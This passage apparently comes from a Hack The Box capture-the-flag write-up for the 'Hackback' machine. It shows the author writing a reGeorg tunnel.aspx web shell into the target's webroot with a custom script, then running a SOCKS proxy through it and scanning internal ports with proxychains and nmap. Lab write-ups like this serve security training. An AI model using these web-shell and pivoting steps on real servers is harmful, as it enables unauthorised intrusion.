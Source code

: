 ```python
r = requests.get("http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/WebAdmin.php?action=show&site=hackthebox&password=12345678&session=fb6f90c58d1e2f1a7b86546f3300d6d199ac4c0b5309ada3203b2042b3443a56", allow_redirects=False);
print r.text
```

I used [reGeorg](https://github.com/sensepost/reGeorg) to pivot to the machine. reGeorg has two main components to it: a client-side python script that acts as a local SOCKS proxy and the remote .aspx file running on the target server.

To write the .aspx to the webserver directory I used my script above:

```
# ./hackback_write.py "/inetpub/wwwroot/new_phish/admin/2bb6916122f1da34dcd916421e531578/tunnel.aspx" tunnel.aspx
200
200
[04 July 2019, 09:55:44 PM] 10.10.14.11 - Username: test@test.com, Password: 4960 *****
```

Then I started the local component of reGeorg:

```
# python reGeorgSocksProxy.py -l 127.0.0.1 -p 1080 -u http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/tunnel.aspx

    
                     _____
  _____   ______  __|___  |__  ______  _____  _____   ______
 |     | |   ___||   ___|    ||   ___|/     \|     | |   ___|
 |     \ |   ___||   |  |    ||   ___||     ||     \ |   |  |
 |__|\__\|______||______|  __||______|\_____/|__|\__\|______|
                    |_____|
                    ... every office needs a tool like Georg

  willem@sensepost.com / @_w_m__
  sam@sensepost.com / @trowalts
  etienne@sensepost.com / @kamp_staaldraad
  
   
[INFO   ]  Log Level set to [INFO]
[INFO   ]  Starting socks server [127.0.0.1:1080], tunnel at [http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/tunnel.aspx]
[INFO   ]  Checking if Georg is ready
[INFO   ]  Georg says, 'All seems fine'
```

So now I have a SOCKS proxy listening on port 1080 and tunneling the traffic to the Hackback machine. There are probably some ports listening only on the localhost so I can find out by running nmap through the tunnel. I specify the `-sT` flag so nmap does a regular TCP socket with the Connect() method and not the default `-sS` SYN method which doesn't work with proxychains.

```
# proxychains nmap -sT -p 22,80,135,139,443,445,3389,5985,5986,8080 127.0.0.1
ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 7.70 ( https://nmap.org ) at 2019-07-05 20:46 EDT
Nmap scan report for localhost (127.0.0.1)
Host is up (0.34s latency).

PORT     STATE  SERVICE
22/tcp   closed ssh
80/tcp   open   http
135/tcp  open   msrpc
139/tcp  closed netbios-ssn
443/tcp  closed https
445/tcp  open   microsoft-ds
3389/tcp open   ms-wbt-server
```